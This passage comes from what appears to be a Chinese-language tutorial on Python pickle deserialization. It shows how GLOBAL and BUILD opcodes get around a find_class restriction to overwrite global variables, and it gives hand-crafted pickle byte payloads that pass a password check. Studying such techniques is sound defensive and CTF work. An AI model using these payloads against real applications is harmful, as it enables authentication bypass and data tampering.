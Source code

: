 [![](assets/1705886719-15422eb3df0576c884b61db17f50c247.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211221-615ff706-b6cc-1.png)

> 可以看到改动后的指令将 26 和 44 变成了 c 指令引用全局变量，即上面 A 类中的变量实现了绕过。n

[![](assets/1705886719-5de1735a897897ef4ca23d30f9e568fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211226-643deab4-b6cc-1.png)

这里的 C 指令主要基于 find\_class 方法进行全局变量的寻找，假如 find\_class 被重写，只允许 c 指令包含\_\_main\_\_这个 module，该如何绕过。

由于 GLOBAL 指令引入的变量，是在原变量中的引用，在栈中修改它的值，会导致原变量的值也被修改，因此就可以做以下操作：

（1）通过\_\_main\_\_.A 引入这个 module  
（2）把一个 dict 压进栈中，其内容为{‘num’: 6, ‘passwd’: ‘123456’}  
（3）执行 b 指令，其作用是修改\_\_dict\_\_中的内容，在\_\_main\_\_.A.num 和\_\_main\_\_.A.passwd 中的内容已经被修改了  
（4）将栈清空，也就是弹掉栈顶  
（5）照抄正常的 B 序列化之后的字符串，压入一个正常的 B 对象，num 和 passwd 分别为 6 和 123456 即可通过。

接下来就是修改，首先将原来得到的值进行一定的修改

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(\x8c\x03numK\x01\x8c\x06passwd\x8c\x05aiwinub.'
```

首先要引入\_\_main\_\_.A 这个 module，并将一个 dict 压入栈中 b'\\x80\\x04\\x95+\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x8c\\x08\_\_main\_\_\\x8c\\x01B\\x93) 变为 b'\\x80\\x04\\x95+\\x00\\x00\\x00\\x00\\x00\\x00\\x00c\_\_main\_\_\\nA\\n}

随后将栈清空，将压入正常的 B，  
\\x81}(\\x8c\\x03numK\\x01\\x8c\\x06passwd\\x8c\\x05aiwinub.'变为 (Vnum\\nK\\x06Vpasswd\\nV123456\\nub0c\_\_main\_\_\\nB\\n)\\x81}(\\x8c\\x03numK\\x06\\x8c\\x06passwd\\x8c\\x06123456ub.'
